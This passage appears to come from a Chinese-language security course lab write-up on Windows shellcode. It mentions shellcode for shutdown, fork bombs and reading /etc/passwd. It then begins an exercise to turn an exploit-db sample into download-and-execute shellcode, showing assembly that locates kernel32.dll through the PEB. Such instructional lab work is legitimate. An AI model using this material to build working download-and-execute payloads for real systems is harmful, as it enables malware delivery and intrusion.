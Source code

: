     ![](./image/s5.png)
    
    
    
  + 当然，shell-storm上还有可以执行其他功能如关机，进程炸弹，读取/etc/passwd等的shellcode.
    



### 文件下载执行

+ 修改示例代码的[shellcode](https://www.exploit-db.com/exploits/48355)，将其功能改为下载执行。也就是从网络中下载一个程序，然后运行下载的这个程序。提示：Windows系统中最简单的下载一个文件的API是 UrlDownlaodToFileA

  + 找到kernel32.dll的基址

    ```asm
    ; Find kernel32.dll base address
     xor ebx, ebx
     mov ebx, [fs:ebx+0x30]  ; EBX = Address_of_PEB
     mov ebx, [ebx+0xC]      ; EBX = Address_of_LDR
     mov ebx, [ebx+0x1C]     ; EBX = 1st entry in InitOrderModuleList / ntdll.dll
     mov ebx, [ebx]          ; EBX = 2nd entry in InitOrderModuleList / kernelbase.dll
     mov ebx, [ebx]          ; EBX = 3rd entry in InitOrderModuleList / kernel32.dll
     mov eax, [ebx+0x8]      ; EAX = &kernel32.dll / Address of kernel32.dll
     mov [ebp-0x4], eax      ; [EBP-0x04] = &kernel32.dll
    ```

    ![](./image/kernel.png)
